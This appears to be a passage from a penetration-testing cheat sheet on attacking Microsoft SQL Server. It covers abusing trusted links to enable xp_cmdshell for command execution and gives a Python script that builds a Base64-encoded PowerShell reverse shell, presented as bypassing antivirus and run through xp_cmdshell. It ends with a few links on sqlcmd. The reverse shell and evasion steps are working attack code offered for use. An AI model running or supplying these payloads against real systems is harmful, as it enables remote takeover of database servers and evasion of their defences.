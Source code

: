 ## Trusted Links

```bash
# Try to authenticate with all domain accounts and see if some can enumerate links
enum_links
# If so
use_link $SRV_NAME
enable_xp_cmdshell
xp_cmdshell whoami
```

## Encoded PS payload to bypass AV and get RCE

```python
# Python script to convert PS code that bypasses Defender to Base64
#!/usr/bin/env python
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())

# Then execute it on MSSQL instance
xp_cmdshell powershell -exec bypass -enc $BASE64
```

## sqlcmd (issue queries on Windows)

[https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16\&tabs=odbc%2Clinux\&pivots=cs1-bash\
https://www.sqlshack.com/working-sql-server-command-line-sqlcmd/\
https://therootcompany.com/blog/mssql-cheat-sheet/](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16\&tabs=odbc%2Clinux\&pivots=cs1-bashhttps://www.sqlshack.com/working-sql-server-command-line-sqlcmd/https://therootcompany.com/blog/mssql-cheat-sheet/)
